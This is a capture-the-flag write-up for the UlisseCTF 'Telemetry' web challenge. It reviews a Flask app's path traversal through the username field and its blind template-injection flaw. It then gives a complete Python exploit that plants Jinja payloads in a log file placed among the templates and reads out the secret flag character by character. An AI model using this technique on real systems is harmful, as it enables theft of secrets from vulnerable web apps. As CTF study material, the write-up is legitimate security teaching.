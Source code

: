 # Telemetry
Solves: 
Tags: #ssti #blind

## Description
> Elia has just developed a brand-new website to analyze logs at runtime 🧻. Confident in his security skills, he bet his entire house that you won't find the hidden flag... Will you prove him wrong? 🏠🔍
  
  Website: [http://telemetry.challs.ulisse.ovh:6969](http://telemetry.challs.ulisse.ovh:6969)

## Overview
It's a website that allows to upload files. Every action the user takes is logged in a log file.

## Road to flag
The flag is only loaded as env variable
```python
app.config['FLAG'] = os.getenv('FLAG')
```

## Code review
- Path traversal using the username
```python
@app.route('/login', methods=['POST'])
def login():
    username = request.form['user']
    log_file = request.form['log']

    if len(log_file) != 32:
        flash('Invalid log filename length', 'danger')
        return redirect('/')
    
    user_id = str(uuid.UUID(log_file))
    log_file = user_id + '.txt' 
    
    if os.path.exists(os.path.join('logs', username, log_file)):
        flash('User/Log already exists', 'danger')
        return redirect('/')
    
    session['user'] = (user_id, username)
    session['files'] = MAX_FILES
    
    os.makedirs(os.path.join('logs', username), exist_ok=True)
    with open(os.path.join('logs', username, log_file), 'w') as f:
        f.write(f'[{time.time()}] - Log file: {user_id}.txt\n')
        f.write(f'[{time.time()}] - User logged in\n')
    
    return redirect('/upload')
```

- Blind SSTI
```python
@app.route('/check', methods=['GET', 'POST'])
def check():
    if request.method == 'GET':
        return render_template('check.html')
    
    template = secure_filename(request.form['template'])
    print(template)
    if not os.path.exists(os.path.join('templates', template)):
        flash('Template not found', 'danger')
        return redirect('/check')
    try:
        render_template(template)
        flash('Template rendered successfully', 'success')
    except Exception as e:
        print(e)
        flash('Error rendering template', 'danger')
    return redirect('/check')
```

## Exploitation
```python
import requests
import random
import string

#url = 'http://localhost:6969'
url = "http://telemetry.challs.ulisse.ovh:6969"

guess = "UlisseCTF{"
oracle = "Error rendering template"

charset = string.ascii_letters + string.digits + "_" + "{}!?"

def login(s, log):
    s.post(url + '/login', data={"user": f"../templates/", "log": log.replace("-", "").replace(".txt", "")})

def poison(s,guess):
    payload = "{{1/0 if config['FLAG'].startswith('"+guess+"') else ''}}"
    s.get(url + f"/{payload}")

def check(s, log):
    r = s.post(url + '/check', data={"template": log})
    return r.text

while True:
    for c in charset:
        p1 = ''.join(random.choices("abcdef" + string.digits, k=12))
        p2 = ''.join(random.choices("abcdef" + string.digits, k=8))
        p3 = ''.join(random.choices("abcdef" + string.digits, k=4))
        p4 = ''.join(random.choices("abcdef" + string.digits, k=4))
        log = f"{p2}-{p3}-{p3}-{p4}-{p1}.txt"

        s = requests.Session()

        login(s, log)
        poison(s, guess+c)
        if oracle in check(s, log):
            guess += c
            print("got: " + guess)
            break
    else:
        print("final: " + guess)
        break
```

`UlisseCTF{n3x7_T1m3_st1ck_t0_your_l0g5!}`
